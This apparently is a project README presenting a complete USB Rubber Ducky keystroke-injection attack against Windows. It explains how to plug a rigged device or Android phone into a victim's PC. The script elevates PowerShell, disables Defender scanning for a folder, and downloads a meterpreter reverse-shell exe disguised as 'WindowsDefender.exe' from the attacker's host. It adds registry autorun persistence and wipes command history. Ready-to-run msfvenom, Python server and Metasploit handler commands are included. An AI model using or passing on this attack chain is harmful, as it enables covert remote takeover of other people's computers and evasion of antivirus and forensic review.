



# Table of Content
1. [Introduction](#1-introduction)
2. [Prerequisites](#2-prerequisites)
3. [Tools Used](#2-tools-used)
4. [Rubber Ducky Code](#3-rubber-ducky-code)
5. [Code Breakdown](#4-code-breakdown)
6. [Execution Video](#7-execution-video)


# 1. Introduction
This project contains a Rubber Ducky payload script designed to automate Windows system commands via simulated keystrokes. It demonstrates how physical device-based scripting can interact with the Windows environment to execute PowerShell commands with administrative privileges. It uses PowerShell commands to:

- Open an elevated PowerShell window with the smallest possible window size for minimal visibility.
- Change the execution policy to unrestricted to allow scripts to run.
- Add an exclusion path in Windows Defender to prevent the payload from being scanned or blocked.
- Download a payload executable from a specified URL to a Windows directory.
- Set the payload executable to run at user login via a registry autorun key.
- Launch the payload.
- Clear command histories and Run dialog histories to reduce traces of activity.
- Exit the PowerShell session.

# 2. Prerequisites
- Attacker must have a `USB Rubber Ducky` or use a rooted phone with APKs like ([Kali NetHunter Store]((https://store.nethunter.com/)), [Rucky](https://store.nethunter.com/packages/com.mayank.rucky/)) to perform HID attack.
- Victim's PC or Laptop must have Windows (7, 8, 8.1, 10 or 11) operating system.
- Attacker must have Kali Linux or Parrot OS installed (Either main OS or inside VM)

# 3. Tools Used
- **[Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky)**: A keystroke injection device that emulates a USB keyboard.

- **[Kali NetHunter Store]((https://store.nethunter.com/))**: A portable mobile penetration testing platform that can be used for hosting payloads and various network tunneling and exploitation tasks. (Alternaive to rubber ducky)

- **[Rucky](https://store.nethunter.com/packages/com.mayank.rucky/)**: App designed to perform USB HID (Human Interface Device) attacks, similar to a USB Rubber Ducky. Install it from `Kali NetHunter store`.

- **[Payload Studio](https://payloadstudio.hak5.org/community/)**: Used to convert .txt payload scripts written in DuckyScript into the inject.bin binary format that

- **PowerShell**: The Windows command-line shell and scripting language used to execute system commands.

    - **Invoke-WebRequest**: PowerShell cmdlet for downloading files from the internet.

    - **Add-MpPreference**: Cmdlet to add exclusions to Windows Defender.

    - **Registry manipulation commands**: For persistence via autorun registry key.

- **Python HTTP Server**: Simple local server to host files for download. **NOTE**: You can either use a Python HTTP server or share it across the internet using tunneling tools like Ngrok, Cloudflare Tunnel, or Telebit.

# 4. Rubber Ducky Code

```powershell
REM Open Run Dialog Box
DELAY 1000
GUI r
DELAY 100

REM Open admin PowerShell with smallest window, exit if fails
STRING powershell -Command "try { Start-Process powershell -Verb runAs -ArgumentList '-NoExit -Command \"(Get-Host).UI.RawUI.BufferSize = (Get-Host).UI.RawUI.WindowSize = [System.Management.Automation.Host.Size]::new(1,1)\"' -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 4000
ALT y
DELAY 3000

REM Set Execution Policy Unrestricted, exit if fails
STRING powershell -Command "try { Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser -Force -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 100

REM Add Defender exclusion, exit if fails
STRING powershell -Command "try { Add-MpPreference -ExclusionPath 'C:\Windows\Defender' -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 100

REM Download payload, exit if fails
STRING powershell -Command "try { New-Item -Path 'C:\Windows\Defender' -ItemType Directory -ErrorAction SilentlyContinue; Invoke-WebRequest 'http://192.168.1.97/WindowsDefender.exe' -OutFile 'C:\Windows\Defender\WindowsDefender.exe' -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 100

REM Set autorun registry key, exit if fails
STRING powershell -Command "try { Set-ItemProperty -Path 'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' -Name 'WindowsDefender.exe' -Value 'C:\Windows\Defender\WindowsDefender.exe' -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 100

REM Run downloaded script, exit if fails
STRING powershell -Command "try { Start-Process -FilePath 'C:\Windows\Defender\WindowsDefender.exe' -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 100

REM Clear PowerShell history
STRING powershell -Command "try { Clear-History } catch { exit 1 }"
ENTER
DELAY 100

REM Clear Run dialog history
STRING powershell -Command "try { Remove-Item -Path 'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Recurse -ErrorAction Stop } catch { exit 1 }"
ENTER
DELAY 100

REM Exit PowerShell
STRING exit
ENTER
```

# 5. Code Breakdown

| CODE | EXPLANATION |
|------|-------------|
| `DELAY 1000` | Waits for 1000 milliseconds (1 second) to allow system readiness. |
| `GUI r` | Simulates pressing Windows + R to open the Run dialog box. |
| `DELAY 100` | Pauses for 100 milliseconds before the next instruction. |
| `STRING powershell -Command "try { Start-Process powershell -Verb runAs -ArgumentList '-NoExit -Command \"(Get-Host).UI.RawUI.BufferSize = (Get-Host).UI.RawUI.WindowSize = [System.Management.Automation.Host.Size]::new(1,1)\"' -ErrorAction Stop } catch { exit 1 }"` | Launches PowerShell as administrator with a minimal window size and exits if not successful. |
| `ENTER` | Simulates pressing Enter to execute the typed command. |
| `DELAY 4000` | Waits for 4000 milliseconds (4 seconds) for the UAC prompt to display. |
| `ALT y` | Simulates pressing Alt + Y to approve the UAC prompt (if present). |
| `DELAY 3000` | Pauses for 3000 milliseconds (3 seconds) for PowerShell to open. |
| `STRING powershell -Command "try { Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser -Force -ErrorAction Stop } catch { exit 1 }"` | Sets PowerShell execution policy to Unrestricted for the current user. Exits on failure. |
| `STRING powershell -Command "try { Add-MpPreference -ExclusionPath 'C:\Windows\Defender' -ErrorAction Stop } catch { exit 1 }"` | Adds `C:\Windows\Defender` folder to Windows Defender exclusion list; exits on error. |
| `STRING powershell -Command "try { New-Item -Path 'C:\Windows\Defender' -ItemType Directory -ErrorAction SilentlyContinue; Invoke-WebRequest 'http://192.168.1.97/WindowsDefender.exe' -OutFile 'C:\Windows\Defender\WindowsDefender.exe' -ErrorAction Stop } catch { exit 1 }"` | Creates the directory if absent and downloads the executable payload to it; exits if fails. |
| `STRING powershell -Command "try { Set-ItemProperty -Path 'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' -Name 'WindowsDefender.exe' -Value 'C:\Windows\Defender\WindowsDefender.exe' -ErrorAction Stop } catch { exit 1 }"` | Sets a registry key to automatically run the payload at user logon; exits if fails. **NOTE** Persistence can also be created via Windows Task Scheduler |
| `STRING powershell -Command "try { Start-Process -FilePath 'C:\Windows\Defender\WindowsDefender.exe' -ErrorAction Stop } catch { exit 1 }"` | Runs the executable payload; exits if process cannot be started. |
| `STRING powershell -Command "try { Clear-History } catch { exit 1 }"` | Clears PowerShell session’s command history; exits on failure. |
| `STRING powershell -Command "try { Remove-Item -Path 'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Recurse -ErrorAction Stop } catch { exit 1 }"` | Removes Run dialog history from the registry; exits on failure. |
| `STRING exit` | Types "exit" to end the PowerShell session. |

# 6. Setup and Usage

### STEP 1: Kali NetHunter Setup (Android)
1. Install all the required APKs and grant the necessary permissions for each of them.
2. Launch `NetHunter` and download either the `full file or the minimal file`.
3. Open `USB Arsenal` from `NetHunter` by clicking on the three-dot menu on the left-hand side.
4. Connect your phone to the target PC and set the `Target to Windows`, `USB Function to HID`, and `ADB to Disable` for a wired connection.
5. Finally, Your phone is now connected to the PC as an HID device.

**Optionally**, you can use an APK named [USB Gadget Tool](https://github.com/tejado/android-usb-gadget) to perform HID attacks without requiring the installation of `Kali NetHunter`.

### STEP 2: Generate Payload via. msfvenom (Kali Linux or Parrot OS) 
1. Open `Terminal` on your Kali/Parrot Linux machine.
2. Check the IP Address 
```
ifconfig
```


3. Run the following command to generate a payload using MSFVENOM, where you replace the IP address from the previous step and set the port to any value, making sure it does not conflict with other ports. **Output** file name can be anything and add extension as `.exe`

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.97 lport=5555 -f exe -o 'Windows Defender.exe'
```


### STEP 3: Start Server to host a payload (Kali/Parrot Linux) 
1. Start a simple HTTP server using Python's built-in `http.server` module in the directory where the APK file is located. **NOTE**: You can either use a Python HTTP server or share it across the internet using tunneling tools like Ngrok, Cloudflare Tunnel, or Telebit.
```
python -m http.server 80 
```

### STEP 4: Start and Configure Metasploit (Kali/Parrot Linux) 
1. Write down the below commands.
```
sudo msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.97
set lport 5555
options
run
```




### STEP 5: Configure Rucky APK (Android)
1. Open `Rucky` and Paste the provided [rubber ducky code](#4-rubber-ducky-code).
2. Click on Play Button  


# 7. Execution Video
[Video Link](https://drive.proton.me/urls/RDH6SX4PSC#5fDlRIpToZN6)


